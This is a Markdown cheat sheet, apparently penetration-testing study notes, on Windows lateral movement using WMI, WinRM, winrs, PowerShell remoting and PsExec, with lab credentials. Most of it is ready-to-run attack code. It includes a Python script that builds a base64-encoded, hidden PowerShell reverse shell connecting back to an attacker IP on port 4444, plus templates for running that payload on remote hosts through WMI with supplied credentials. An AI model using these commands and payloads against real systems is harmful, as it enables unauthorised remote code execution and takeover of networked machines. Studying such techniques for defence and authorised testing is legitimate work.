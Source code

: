 # WMI
## wmic
wmic version
```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

powershell version (example: create calc process)
```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.150.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

## powershell
generate base64 powershell payload
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.x.x",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

runnnig the base64 encoder python script
```bash
python3 encode.py
```

executing the WMI payload with base64 reverse shell
```powershell
$username = 'USERNAME';
$password = 'PASSWORD';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.x.x -Credential $credential -SessionOption $Options
$Command = 'COMAND';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

# WinRM
For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

## winrs
executing commands remotely via WinRS
```cmd
winrs -r:file04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
```

## powershell
powersehll remote session via WinRM
```powershell
$username = 'USERNAME';
$password = 'PASSWORD';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.x.x -Credential $credential
Enter-PSSession 1
```


# PsExec
three requisites
```
1. the user that authenticates to the target machine needs to be part of the Administrators local group
2.  the ADMIN$ share must be available
3. File and Printer Sharing has to be turned on

2,3 requirements are already met as they are the default settings on modern Windows Server systems
```

obtaining an interactive shell on the target system with PsExec
```
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
